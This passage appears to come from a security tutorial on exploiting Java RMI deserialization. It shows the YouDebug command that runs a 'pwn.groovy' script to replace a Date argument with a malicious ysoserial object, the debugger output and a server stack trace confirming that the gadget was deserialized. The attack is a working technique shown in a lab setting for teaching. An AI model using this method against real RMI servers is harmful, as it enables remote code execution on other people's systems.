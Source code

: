 One quick thing to note is that ensure that the `ysoserial` library exists in the RMI Client's classpath when compiling the client. 

Once all said is done, start the RMI Client and notice it hangs as its waiting for the debugger to connect on Port 8000:

![Screenshot]({{ site.baseurl }}/images/posts/2020/rmi/hanging.png)

Run `YouDebug` with the following arguments passing it the `pwn.groovy` script which was created earlier:

`$ java -jar youdebug.jar -socket localhost:8000 pwn.groovy`

The following output will be shown:

```
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by org.codehaus.groovy.reflection.CachedClass$3$1 (file:/private/tmp/rmi-exploitation/youdebug.jar) to method java.lang.Object.finalize()
WARNING: Please consider reporting this to the maintainers of org.codehaus.groovy.reflection.CachedClass$3$1
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
Loaded...
[+] java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod() is called
[+] java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod() is called
[+] Replacing Date object with malicous object!
[+] Done..
```

As there are two remote methods being invoked in the RMI Client, `java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod() is called` will be shown twice.
Finally the print statement will be shown that the `Date` object has been swapped with the malicious object.

If all goes well, the output of the `RMI Client` should contain the following stack trace as an exception should've been thrown:

```
Exception in thread "main" java.lang.IllegalArgumentException: java.lang.ClassCastException@2d93291
	at sun.reflect.GeneratedMethodAccessor4.invoke(Unknown Source)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:357)
	at sun.rmi.transport.Transport$1.run(Transport.java:200)
	at sun.rmi.transport.Transport$1.run(Transport.java:197)
	at java.security.AccessController.doPrivileged(Native Method)
	at sun.rmi.transport.Transport.serviceCall(Transport.java:196)
  <snipped for brevity>
	at RMIClientDemo.Client.main(Client.java:19)
```

Like in the majority of Java deserializations, if the `java.lang.ClassCastException` is thrown this is a great sign as it means the malicious object was deserialized. In this scenario, the malicious object was deserialized on the server-side and thus the gadget executed.
